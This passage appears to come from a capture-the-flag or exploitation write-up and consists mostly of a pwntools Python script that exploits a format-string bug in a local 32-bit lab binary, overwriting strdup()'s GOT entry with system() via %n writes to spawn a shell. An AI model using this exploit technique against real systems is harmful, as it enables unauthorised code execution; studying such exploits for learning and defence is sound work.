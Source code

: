 Basically what we want to do next is write a certain amount of bytes and with that change the address of `strdup()`.  
    
I do this 4 times to overwrite the 4 2byte positions of `strdup()` within the GOT.  

{% highlight python %}
#!/usr/bin/env python

import argparse
from pwn import *
from pwnlib import *

context.arch ='i386'
context.os ='linux'
context.endian = 'little'
context.word_size = '32'
context.log_level = 'DEBUG'

binary = ELF('./binary/vuln')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')


def pad(s):
    return s+"X"*(512-len(s))


def main():
    parser = argparse.ArgumentParser(description='pwnage')
    parser.add_argument('--dbg', '-d', action='store_true')
    args = parser.parse_args()

    exe = './binary/vuln'

    strdup_plt = 0x804a014
    system_libc = 0xf7e37da0

    exploit = "sh;#    "

    exploit += p32(strdup_plt)
    exploit += p32(strdup_plt+1)
    exploit += p32(strdup_plt+2)
    exploit += p32(strdup_plt+3)

    exploit += "%9$136x"
    exploit += "%9$n"
    
    exploit += "%221x"
    exploit += "%10$n"
    
    exploit += "%102x"
    exploit += "%11$n"
    
    exploit += "%532x"
    exploit += "%12$n"



    padding = pad(exploit)

    if args.dbg:
        r = gdb.debug([exe], gdbscript="""
                b *vuln+92
                b *vuln+98
                continue
                """)
    else:
        r = process([exe])

    r.send(padding)
    r.interactive()


if __name__ == '__main__':
    main()